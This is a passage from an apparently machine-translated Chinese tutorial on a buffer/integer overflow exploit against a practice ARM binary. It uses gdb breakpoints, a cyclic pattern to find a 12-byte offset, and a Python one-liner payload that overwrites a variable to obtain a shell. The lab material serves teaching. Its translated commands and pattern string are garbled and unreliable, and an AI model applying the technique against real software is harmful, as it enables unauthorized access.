

现在，r3 表示 user_win 变量，并且当前保存值 0x41414141。user_win 的默认值已更改，因为缓冲区溢出导致用户输入(261 A)溢出堆栈中的内容，r2 包含值 0x42424242 (BBBB ),该值将与 r3 进行比较。这是我们 strcpy 之后的“if 条件”，如果 user_win 包含 0x42424242 我们会得到一个 shell。

这里唯一要做的就是找到覆盖 user_win 的输入的位置。为此，我们可以使用一种模式。我将使用这个模式发生器

 [## 缓冲区溢出模式生成器

### 使用此工具，您可以生成一个由独特模式组成的字符串，您可以使用它来替换序列的 A 的…

wiremask.eu](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) 

让我们使用 gdb 运行二进制文件并输入它，同时不要忘记将断点放在 CMP 指令处。

> GEF > b * 0x 00010600
> 0x 10600 处的断点 3
> 
> GEF > r aa 0 aa 1 aa 2 aa 3 aa 4 aa 5a a6 aa 7 aa 8 aa 9 ab 0 ab 1 ab 2 ab 3 ab 4 ab 5 ab 6 ab 7 ab 8 ab 9 AC 0 AC 1 AC 3 AC 5 AC 6 AC 7 AC 8 AC 9 ad 0 ad 1 ad 2 ad 3 ad 4 ad 5 ad 6 ad 7 ad 8 ad 9 a E0 AE 1 AE 2 AE 3 AE 4 AE 5 AE 6 AE 7 AE 8 AE 9 af 0 a f1 af 3 af 4 a F5 af 6 af 7 af 8 a F9 ag 0 ag 1 ag 2 ag 3 ag 45 ag 6 ag 7 ag 8 ag 9 ag 9 ag 9 a。



断点已命中。现在检查 r3 的值

将该值复制到模式生成器中，以找到偏移量。

所以我们找到了偏移量。第 12 个字符之后的字符将覆盖 user_win 变量。所以我们应该在输入的 12 个字符后加上 4 个 B(“BBBB”)来覆盖 user_win，从而得到我们的精彩 shell。

所以漏洞会是这样的

> pi @ raspberrypi:~/ASM/integer overflow $。/integer overflow $(python-c ' print " A " * 12+" BBBB "+A *(261–12–4)')

所以最后的关键时刻…让我们运行漏洞



**万岁！！！！！！！！！！！！！！！！！！！！！！！**

我们得到了我们的壳……:)

它用“BBBB”覆盖了 user_win 变量的值，给了我们一个 shell。

所以现在就这样了。我希望你喜欢这个。我尽量保持简短:p。

如果你喜欢它，请不要犹豫与他人分享，并感谢你花宝贵的时间阅读这篇文章:)

如果你想支持我，试试在 Udemy 上购买我的 Arm 开发课程:[https://www . Udemy . com/course/reverse-engineering-and-binary-Exploitation-in-Arm/？referral code = 8c 725d 513 e 77420 a 0 CBF](https://www.udemy.com/course/reverse-engineering-and-binary-exploitation-in-arm/?referralCode=8C725D513E77420A0CBF)

**参考**:[https://sploitfun . WordPress . com/2015/06/23/integer-overflow/](https://sploitfun.wordpress.com/2015/06/23/integer-overflow/)

如有任何疑问，请联系我:

insta gram:[https://www.instagram.com/hagane_no_rekinjutsushi/](https://www.instagram.com/hagane_no_rekinjutsushi/)

https://www.facebook.com/i.am.ultralegend 脸书